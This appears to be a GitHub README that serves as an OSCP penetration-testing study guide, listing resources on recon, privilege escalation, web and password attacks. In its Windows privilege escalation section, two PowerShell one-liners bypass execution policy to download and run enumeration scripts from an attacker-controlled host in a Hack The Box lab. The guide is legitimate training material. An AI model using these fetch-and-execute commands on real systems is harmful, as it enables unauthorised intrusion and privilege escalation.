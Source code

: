 # OSCP-Prepration
---------------------------
PWK Syllabus
https://www.offensive-security.com/documentation/penetration-testing-with-kali.pdf

### OSCP like VulnHub Game 
https://www.abatchy.com/2017/02/oscp-like-vulnhub-vms.html


### Linux and Bash

1. Linux Journey - https://linuxjourney.com/
2. Bash for Beginners  - http://www.tldp.org/LDP/Bash-Beginners-Guide/html/
3. Explainshell - http://www.explainshell.com/

### Basic tools
	
1. Netcat: Most important tool in the entire course. Understand what it does, what options you have, difference between a reverse shell and a bind shell. Experiment a lot with it.
2. Ncat: Netcat’s mature brother, supports SSL. Part of Nmap.
3. Wireshark: Network analysis tool, play with it while browsing the internet, connecting to FTP, read/write PCAP files.
4. TCPdump: Not all machines have that cute GUI, you could be stuck with a terminal.

### Passive Recon

1. Google dorks
2. Whois
3. Netcraft
4. Recon-ng

### Active Recon

### Buffer Overflow
https://github.com/fkclai/bufferoverflow

### Using public exploits

### File Transfer

### Windows Privilege Escalation

- Information Generating
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

- Window Privilege Escalation via Automated Script
https://www.hackingarticles.in/window-privilege-escalation-via-automated-script/

- Windows Exploit-Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
e.g. HTB Json
```
./windows-exploit-suggester.py --database 2019-11-06-mssb.xlsx --systeminfo json-systeminfo.txt 
```

- Missing software patches - Sherlock
https://github.com/rasta-mouse/Sherlock
e.g. HTB Json
```
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.18:8888/Sherlock.ps1'); Find-AllVulns -Command 'start powershell.exe'" 
```

- PowerSploit
https://github.com/PowerShellMafia/PowerSploit

```
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.18:8888/PowerSploit/Privesc/PowerUp.ps1'); Invoke-AllChecks -Command 'start powershell.exe'" 
```
- Other Tools 
https://www.secureauth.com/labs/open-source-tools/impacket

### Linux Privilege Escalation
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

### Client Side Attacks
https://www.offensive-security.com/metasploit-unleashed/client-side-attacks/

### Web Application Attacks
1. OWASP top10 2017
https://www.owasp.org/index.php/Top_10-2017_Top_10

2. Training
https://www.hacksplaining.com/

### Password Attacks
1. Hydra
2. JTR
3. Medusa

### Port redirection/tunneling
https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/

### Metasploit Framework
https://www.offensive-security.com/metasploit-unleashed/

### Antivirus Bypassing
